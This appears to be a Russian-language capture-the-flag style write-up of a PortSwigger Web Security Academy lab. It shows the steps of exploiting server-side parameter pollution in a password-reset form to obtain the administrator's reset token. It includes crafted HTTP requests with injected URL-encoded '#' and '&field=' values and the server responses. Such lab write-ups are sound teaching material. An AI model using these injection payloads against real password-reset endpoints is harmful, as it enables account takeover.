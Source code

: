 Чтобы решить лабораторию, войдите в систему как `administrator` и удалить `carlos`.

## Дано

уязвимость заключается в использование загрязнения параметров

## Задача

войти в систему как `administrator` и удалить `carlos`

# Решение

- При поверхностном поиске ничего не нашли, проверим js файлы при помощи расширения JS Link Finder
![[Pasted image 20250204101813.png]]

проверим файл /static/js/forgotPassword.js
```
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

попробуем добавить полезную нагрузку на переменную username (усекаем)
```
POST /forgot-password HTTP/2
Host: 0a53007f0490198289a4509c0049002d.web-security-academy.net
Cookie: session=MOz6roV1795223VFRNu5JPIJA0UElgHu
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a53007f0490198289a4509c0049002d.web-security-academy.net/forgot-password
Content-Type: x-www-form-urlencoded
Content-Length: 69
Origin: https://0a53007f0490198289a4509c0049002d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers

csrf=Kq8ikw70ZWwurLGSd7wbZ2d4OhR3KJlC&username=administrator%23
```
Ответ от сервера
```
{"error": "Field not specified."}
```

проверим по бруту какие доступны файлы
`&username=administrator%26field=brut`
```
{"type":"ClientError","code":400,"error":"Invalid field."}
```
![[Pasted image 20250204102855.png]]

в ответе получили почту
проверим reset_token на ответ итог cykgg8xv3bp3v5wipwupyozzxejmfyko

Ответ https://0a53007f0490198289a4509c0049002d.web-security-academy.net/forgot-password?reset_token=cykgg8xv3bp3v5wipwupyozzxejmfyko

